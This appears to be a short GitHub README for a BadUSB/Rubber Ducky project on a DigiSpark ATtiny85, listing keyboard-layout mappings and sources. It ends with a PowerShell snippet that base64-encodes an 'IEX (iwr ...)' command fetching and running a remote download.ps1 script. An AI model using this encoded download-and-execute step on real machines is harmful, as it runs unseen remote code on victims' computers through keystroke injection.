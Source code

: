 <h1>Bad USB</h1>
<p>This directory is for files directed to creating a BadUSB or RubberDucky.<br>
The scripts are written for the DigiSpark Attiny85 USB mini Arduino board.<br>
Code is added with the Arduino IDE.</p>


<h2>Info:</h2> 
<p>The USB writes directly to the keyboard, and the default is an American keyboard.<br>
Use this list below to use the equivalent Norwegian keyboard options.<br>
American Keyboard layout info<br><br>
@ = "<br>
- = /<br>
) = (<br>
( = *<br>
/ = &<br>
\ = =<br>
: = ><br>
; = < </p>

<h3>Sources:</h3>
<p>https://digistump.com/wiki/digispark/tutorials/connecting<br>
https://www.secjuice.com/how-to-build-a-low-cost-rubber-ducky/</p>

<h3>Encode Base64 command:<h3>
<p>$String = "IEX (iwr 'https://raw.githubusercontent.com/helfiesp/Security/main/BadUSB/download.ps1')"<br>
$bytes = [System.Text.Encoding]::Unicode.GetBytes($String)<br>
$encodedCommand = [System.Convert]::ToBase64String($bytes)<br>
Write-Host $encodedCommand</p>
